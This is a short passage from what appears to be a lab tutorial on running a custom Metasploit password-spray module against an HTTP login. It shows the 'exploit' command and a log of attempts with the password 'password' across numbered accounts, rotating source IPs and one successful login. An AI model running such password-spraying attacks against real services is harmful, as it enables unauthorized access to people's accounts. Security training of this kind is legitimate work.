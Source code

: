 6. Start to `exploit` using your module by

   ```bash
   exploit
   ```

   LOG:

   ```bash
   msf5 auxiliary(http/passwordspray/spray) > exploit
   
   [*] Running for 152.96.6.247...
   [*] Password Spray: -- Trying users: 140000 to 140009
   [*] Password Spray: New IP received: 51.77.135.89
   
   [*] Password Spray: User: user_140000 Password: password Status: 401
   [*] Password Spray: User: user_140001 Password: password Status: 401
   ...
   [*] Password Spray: User: -- Successfull logins:
   [*] Password Spray: User: user_140349 Password: password Status: 200
   ```

   